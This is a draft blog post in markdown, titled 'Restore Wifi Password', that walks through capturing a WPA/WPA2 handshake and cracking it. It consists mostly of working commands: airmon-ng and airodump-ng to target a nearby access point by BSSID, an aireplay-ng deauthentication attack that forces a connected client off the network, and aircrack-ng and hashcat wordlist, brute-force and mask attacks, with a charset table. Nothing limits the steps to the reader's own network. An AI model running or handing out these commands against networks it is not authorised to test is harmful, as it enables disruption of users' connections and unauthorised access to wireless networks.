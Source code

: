 ```yaml
---
title: "Restore Wifi Password"
date: 2020-12-25T09:21:04+01:00
year: "2020"
month: "2020/12"
# categories:
#   - Posts
tags:
  - linux
  - kali
  - security
slug: restore-wifi-password
draft: true
---
```


## STEP 1 - Get Handshake

Check if your wireless card does support monitor mode.  
If you do not see an interface listed then your wireless card does not support monitor mode.

```
airmon-ng
```

---

Put your network device into monitor mode

```
# airmon-ng start wlan0
```

Listen for all nearby beacon frames to get target BSSID and channel

```
# airodump-ng wlan0mon
```

Start listening for the handshake

```
# airodump-ng --channel 6 —-bssid 9C:5C:8E:C9:AB:C0 --write capture/ wlan0mon
```

Optionally deauth a connected client to force a handshake  
`-a` = AP, `-c` = Client

```
# aireplay-ng -0 2 -a 9C:5C:8E:C9:AB:C0 -c 64:BC:0C:48:97:F7 wlan0mon
```

## STEP 2 - Crack password with aircrack-ng / hashcat

Convert .cap to .hccapx

```
# aircrack-ng -j OUT.hccapx IN.cap
```

#### aircrack-ng

```
# aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w wordlist.txt capture/-01.cap
```

#### hashcat (wordlist)

```
# hashcat -m 2500 capture.hccapx wordlist.txt
```

#### hashcat (brutal-force)

```
# hashcat -m 2500 capture.hccapx -a 3
```

#### hashcat (brutal-force if you know the length of password)

The following command is and example of how your scenario would work with a password of length = 8.

```
# hashcat -m 2500 -a 3 capture.hccapx ?d?d?d?d?d?d?d?d
```

The `-a 3` denotes the "mask attack" (which is bruteforce but more optimized).

The `-m 2500` denotes the type of password used in WPA/WPA2.

The `capture.hccapx` is the .hccapx file you already captured.

The `?d?d?d?d?d?d?d?d` denotes a string composed of 8 digits.

If you want to specify other charsets, these are the following supported by hashcat:

```
?l = abcdefghijklmnopqrstuvwxyz
?u = ABCDEFGHIJKLMNOPQRSTUVWXYZ
?d = 0123456789
?h = 0123456789abcdef
?H = 0123456789ABCDEF
?s = «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~
?a = ?l?u?d?s
?b = 0x00 – 0xff
```
